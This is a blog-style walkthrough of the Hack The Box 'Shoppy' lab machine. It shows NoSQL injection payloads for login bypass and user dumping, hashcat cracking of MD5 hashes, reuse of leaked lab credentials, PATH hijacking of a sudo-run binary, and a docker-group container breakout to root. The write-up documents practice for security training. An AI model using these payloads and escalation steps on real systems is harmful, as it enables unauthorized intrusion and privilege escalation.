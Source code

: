 ```yaml
---
layout: post
title: Shoppy

date: 2022-12-31 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [nosql, mongodb, hashcat, john, ghidra, PATH, docket, DNS]
---
```


Initial nmap scans gve us a few ports and an http server on 80 that needs to be setup in hosts to access. http://shoppy.htb

Running `feroxbuster` we find a `/login` on port 80

Check for subdomains `wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb' -H "Host: FUZZ.shoppy.htb" --hc 301`

we find `mattermost` add it to the /etc/hosts

We can bypass the login screen using nosql injection

- `user=' || 1==1%00&pass=' || 1==1%00`

Then searching for users we can use the following to dump all users

- `http://shoppy.htb/admin/search-users?username=admin'||'1==1`

```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```

- `hashcat -m 0 shoppy.htb.hashes.josh /usr/share/wordlists/rockyou.txt`

and we get joshs pass: 6ebcea65320589ca4f2f1ce039975995:remembermethisway

We can login the the mattermost subdomain with their credentials.

Checking the recent mentions we have a note from jaeger

```
or the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!
And deploy on it. 
```

also 

```
josh
1:25 AM

Oh I forgot to tell you, that we're going to use docker for the deployment, so I will add it to the first deploy 
```

We can login via ssh with jaeger creds. and get user.txt flag

Checking sudo -l we can run the following command `sudo -u deploy /home/deploy/password-manager` which 

basically looks for creds then when proper creds inserted executes `cat /home/deploy/creds.txt`. now this isnt using the full path so we should be ablt to use PATH escalation. Create a cat file in /tmp with bash -i then add /tmp to PATH. export PATH=/tmp:$PATH then using ghidra we find the password for the manager is Sample. Running the file we get deploy creds.


```
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

su to deply

checkng id and as expected we are inside a docker container and since we now have a user that belongs to the docker group we can escape. https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

- `find / -name docker.sock 2>/dev/null`
- `docker run -it -v /:/host/ alpine chroot /host/ bash`

and we're root
